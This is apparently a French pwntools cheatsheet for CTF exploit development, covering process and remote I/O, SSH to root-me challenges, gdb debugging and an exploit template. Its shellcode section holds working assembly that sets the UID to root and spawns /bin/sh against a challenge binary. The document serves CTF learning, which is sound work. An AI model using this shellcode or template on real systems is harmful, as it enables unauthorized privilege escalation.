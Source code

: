 ```yaml
---
title: '🏴 Pwntools'
date: 2023-02-20
draft: true
description: "fa-solid fa-file-lines fa-fw fa-sm"
categories:
  - pwn
  - cheatsheet
tags:
  - pwn
  - cheatsheet
---
```


https://github.com/Gallopsled/pwntools

Pwntools est un CTF framework et une librairie python conçus pour le développement d’exploits. Pwntools a pour but de rendre le développement d’exploits le plus simple et rapide possible. Il vient en 2 parties : *_pwn_* pour les CTFs et *_pwnlib_* une version plus clean et “professinnelle” du projet.


## Create and Interact with Process
```python
import pwn

p = pwn.process(["/usr/bin/python3", "-c", "'print(hello)'"])

p.write("hello")       # -> send : "hello"
p.writeline("hello")   # -> send : "hello\n"

output = p.read(<length>)
output = p.readline()
output = p.readuntil('some string')
output = p.readall()

# p.readuntil('some string') ; p.write(b'aaaa')
p.writeafter('some string', b'aaaa')

# p.readuntil('some string') ; p.writeline(b'aaaa')
p.writelineafter('some string', b'aaaa')

# interacting with the process manually
p.interactive()

# waiting for the process to finish
p.wait()
```

## Remote
Ici les appels à fonctions ont été fait dans un contexte ou le process est lancé en local. Il est tout à fait possible de faire la même chose en remote.
```python
# Socket
io = remote('127.0.0.1', 1337)                # Bind
io = listen(8080).wait_for_connection()       # Reverse

# SSH Connect
s = ssh(host='challenge02.root-me.org',user='app-systeme-ch15',password='app-systeme-ch15',port=2222)
p = s.process('./ch15')

p.send("hello")       # -> send : "hello"
p.sendline("hello")   # -> send : "hello\n"

output = p.recv(<length>)
output = p.recvline()
output = p.recvuntil('some string')
output = p.recvall()
```

## Context and Environment
```python
# Add environment variables
p = pwn.process(["/usr/bin/python3", "-c", "'print(hello)'"], env={'TEST':'test'})
```

## Play with Stdin/Stdout
```python
# Redirect file output to process stdin
fd = open('input.txt', 'r')
p = process(['/usr/bin/cat', '/flag.txt'], stdin=fd)

# Redirect process output to a file
fd = open("output.txt", "w")
p = process(['/usr/bin/cat', '/flag.txt'], stdout=fd)
```

## Shellcode
```python
import pwn

p = pwn.process(['/challenge/babyshell_level5'])

pwn.context.update(arch='amd64', os='linux')
payload = pwn.asm(f"""
.global _start
_start:
.intel_syntax noprefix
	
# Set Real UID to root(0)
	xor rax, rax
	mov al, 0x71
	xor rdi, rdi
	xor rsi, rsi
	syscall
	
# Call /bin/sh
	xor rbx, rbx
	push rbx                          # on push un null byte sur la stack pour la fin de la string du path de /bin/sh
	mov rbx, 0x68732f6e69622f2f       # on push /bin/sh sur la stack
	push rbx
	xor rax, rax
	mov al, 59
	xor rdi, rdi
	mov rdi, rsp                      # on récupère "/bin/sh\0" depuis la stack
	xor rsi, rsi
	xor rdx, rdx
	syscall
""")

p.write(payload)

p.interactive()

p.wait()
```

## Debugging
Tout d'abord, le server qui héberge le binaire que l'on souhaite debug doit avoir _**gdb**_ et _**gdbserver**_ d'installé.

```python
# Debug à partir de la toute première instruction
io = gdb.debug("/bin/bash", gdbscript='continue')

# Debug un process
io = process('/bin/sh')
gdb.attach(io, gdbscript='continue')

# Debug en remote
io = remote('localhost', 4141)
gdb.attach(io)

# Debug en ssh
context.terminal = "/Applications/iTerm.app/Contents/MacOS/iTerm2" #(Dépend de l'environement graphique, ex: /usr/bin/i3-sensible-terminal)
s = ssh(host='challenge02.root-me.org',user='app-systeme-ch7',password='app-systeme-ch7',port=2222)
io = s.process(['./ch7', payload])
gdb.attach(io, gdbscript=f"""
    b *main
    continue
""")

io.sendline('break main')
io.recvline()
io.interactive()

```

## Template
```python title:pwntools_template.py
#!/usr/bin/python3.9
from pwn import *

if not args.BLIND:
    context.binary = elfexe = ELF('./src') #FIXME
#    libc = ELF('<libc-used-by-target>') #FIXME

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    elf_path = '/challenge/run'
    if args.REMOTE:
        remote_server = 'dojo.pwn.college'   #FIXME
        remote_port = 22         #FIXME

        if args.SSH:
            s = ssh('hacker', remote_server, remote_port, keyfile='/home/ego/.ssh/id_ed25519')
            if args.GDB:
                if not args.BLIND:
                    return gdb.debug([elf_path] + argv, gdbscript, elfexe.path, ssh=s, *a, *kw)
                else:
                    return gdb.debug([elf_path] + argv, gdbscript, ssh=s, *a, *kw)
            else:
                target = s.process([elf_path] + argv, *a, **kw)
        else:
            target = remote(remote_server, remote_port)
    else:
        if args.GDB:
            if not args.BLIND:
                return gdb.debug([elf_path] + argv, gdbscript, elfexe.path, *a, *kw)
            else:
                return gdb.debug([elf_path] + argv, gdbscript, *a, *kw)
        else:
            target = process([elf_path] + argv, *a, **kw)
    return target

gdbscript = '''
# init-gef
# target record-full # Not supported with AVX instructions yet

# b *main
# command
#     printf "argv ptr: %p\\n",$rsi
# end

# continue
'''.format(**locals())
if args.GDB:
    log.info('Using gdb script:\n'+gdbscript)

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

arguments = []
io = start(arguments)

io.interactive()
io.close()
```
## Play with files
https://docs.pwntools.com/en/dev/filesystem.html
## Troubleshootings
Dans le cas où on a des erreurs et que l'on a besoin de comprendre ce qui se passe en détail dans pwntools, on peut utiliser l'option `debug`.

```
# Debug global
context.log_level='debug'

# Debug local
io = gdb.debug('/bin/sh', log_level='debug')
```

https://github.com/Gallopsled/pwntools-tutorial/blob/master/debugging.md#troubleshooting
